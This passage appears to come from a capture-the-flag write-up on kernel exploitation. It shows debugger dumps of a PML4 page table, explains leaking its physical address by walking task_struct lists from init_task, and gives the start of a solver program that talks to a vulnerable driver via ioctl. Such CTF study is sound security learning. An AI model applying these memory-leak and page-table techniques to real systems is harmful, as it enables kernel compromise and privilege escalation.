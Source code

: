 ```py
0xffff888003246020:     0x0000000000000000      0x0000000000000000
0xffff888003246030:     0x0000000000000000      0x0000000000000000
0xffff888003246040:     0x0000000000000000      0x0000000000000000

# seeing PML4 table memory (physical address)
gef> xp/10gx 0x3246000
0000000003246000: 0x000000000321a067 0x0000000000000000
0000000003246010: 0x0000000000000000 0x0000000000000000
0000000003246020: 0x0000000000000000 0x0000000000000000
0000000003246030: 0x0000000000000000 0x0000000000000000
0000000003246040: 0x0000000000000000 0x0000000000000000
```

You can leak the PML 4 table by using `task_struct`. 
The member `task_struct->mm->pgd` of the task is the virtual address of its PML 4 table. 
If we can leak it, then we have to change it with the physical address.

There is a [good reference](https://www.kernel.org/doc/gorman/pdf/understand.pdf) for it.
Look at "3.7.1 Mapping Physical to Virtual Kernel Addresses".

```
#define __pa(x) ((unsigned long)(x) - PAGE_OFFSET)
```

When you want to find your task, you can search the process name from `init_task`.

```py
gef> x/gx &init_task
0xffffffff82a0c900 <init_task>: 0x0000000000004000

gef> p init_task->comm
$2 = "swapper/0\000\000\000\000\000\000"

gef> p ((struct task_struct *)(((void *)init_task->children->next) - 0x550))->comm
$3 = "init", '\000' <repeats 11 times>
```

By traversing from `init_task`, you can find your exploit process and cocay process and leak the PML4 table physical address through `task_struct->mm->pgd`, right?

Let's code the exploit and send it to remote server.

I sent my exploit through [this script](https://github.com/pr0cf5/kernel-exploit-sendscript) and applied the [upx packer](https://github.com/upx/upx) to reduce the size of this binary.


## Solver.c

```c
// gcc -masm=intel -static -o ex ex.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <assert.h>
#include <sys/mman.h>

#define IOCTL_READ          0x1001
#define IOCTL_READ_WITH_CR3 0x1002

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}
```